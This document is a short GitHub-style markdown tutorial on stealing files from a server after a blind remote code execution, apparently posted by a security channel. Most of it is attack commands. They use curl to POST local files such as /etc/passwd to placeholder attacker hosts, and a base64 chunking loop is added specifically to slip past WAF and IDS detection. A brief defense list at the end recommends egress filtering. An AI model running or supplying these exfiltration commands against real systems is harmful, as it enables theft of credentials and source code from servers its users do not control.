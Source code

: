 # Blind RCE File Exfiltration via `curl`
![Blind RCE File Exfiltration via curl - cybersecplayground](https://github.com/user-attachments/assets/13180932-3829-4771-900f-f6edad442587)

If you’ve landed a **Blind Remote Code Execution (RCE)** but can trigger outbound HTTP requests (**OOB — Out of Band**), you can steal files from the target server without direct output.

---

## 📌 Technique: Using `curl` with `-d @file`

When you run:
```bash
curl -d @index.php https://OOB_SERVER
```
- `-d @index.php` → Reads the entire file `index.php` and sends it in the HTTP request body.

The OOB server receives the full file contents, even if the RCE output is not directly visible.

---

## 📜 Example Exploit Flow

### 1. Control an OOB listener:
```bash
python3 -m http.server 8080
```
👉 Or use **Burp Collaborator** / **Interactsh**.

### 2. Trigger the Blind RCE on the target with:
```bash
curl -d @/etc/passwd https://your-server.com
```
The file contents are sent to your server in the POST request body.

---

## 🔥 Why This Works
- ⚡️ The `@` syntax in curl tells it to read a local file instead of sending raw text.
- ⚡️ Perfect for exfiltrating sensitive files (config files, source code, credentials) over HTTP in a single request.

## Exfiltrating Files via Base64 + Chunked Requests
Sometimes servers or firewalls block direct file leaks.
A sneaky trick is to encode files in Base64 and send them in small chunks to bypass restrictions.

💻 One-liner:
```
i=0; base64 /etc/passwd | fold -w 60 | \
while read -r line; do \
  curl -s -X POST -d "$line" http://YOUR-VPS.COM/chunk$i; \
  i=$((i+1)); \
  sleep 0.5; \
done
```

## 🔎 How it works: 
1️⃣ Encodes /etc/passwd into Base64   
2️⃣ Splits into 60-char chunks   
3️⃣ Sends each chunk via POST requests   
4️⃣ Adds delay to avoid WAF / IDS detection   

---

## 🛡 Defense
- ✅ Restrict outbound HTTP requests from servers (**Egress filtering**).
- ✅ Disable `curl`, `wget`, and similar tools in restricted environments.
- ✅ Use Web Application Firewalls (**WAFs**) to detect suspicious HTTP patterns.

---

📢 Follow [@cybersecplayground](https://t.me/cybersecplayground) for more RCE & exfiltration tricks.

---

**Tags:** #RCE #BugBounty #curl #Exfiltration #Infosec #CyberSecurity
